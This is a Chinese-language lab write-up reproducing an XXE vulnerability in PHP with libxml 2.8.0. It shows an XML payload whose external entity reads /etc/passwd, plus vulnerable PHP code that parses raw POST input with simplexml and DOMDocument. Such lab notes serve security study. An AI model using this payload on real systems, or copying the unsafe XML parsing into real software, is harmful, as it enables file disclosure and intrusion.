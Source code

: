 ```yaml
---
title: php-xxe
date: 2023-09-03T15:29:52+08:00
updated: 2023-08-11T23:48:09+08:00
categories: 
- 渗透测试
- 漏洞复现
- Php
---
```


## 漏洞复现：

进入靶场

```
docker compose up -d
```

访问8080端口即可看到phpinfo界面，搜索libxml即可看到版本号为2.8.0，存在外部实体加载漏洞，访问漏洞存在的页面添加payload

```xml
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE xxe [
<!ELEMENT name ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<root>
<name>&xxe;</name>
</root>
```

![php-xxe](E:\笔记软件\笔记\渗透测试\漏洞复现\Php\php-xxe.png)

也可以使用http进行内网主机探测，这里不再过多介绍

## 漏洞分析：

由于libxml2.8.0版本能然允许外部实体的加载，因此我们可以通过xmlpayload进行操作，看一下网站的源码，其中一个文件

```php
<?php
$data = file_get_contents('php://input');
$xml = simplexml_load_string($data);

echo $xml->name;
```

直接解析了post的内容，并且回显在name位，因此只需要在<name></name>处调用读取文件的外部实体即可

dom.php则更简单，不需要指定的名称即可调用

```php
<?php
$data = file_get_contents('php://input');

$dom = new DOMDocument();
$dom->loadXML($data);

print_r($dom);
```

**利用条件**

libxml版本低于2.9.0允许外部实体的加载，该漏洞与php版本无关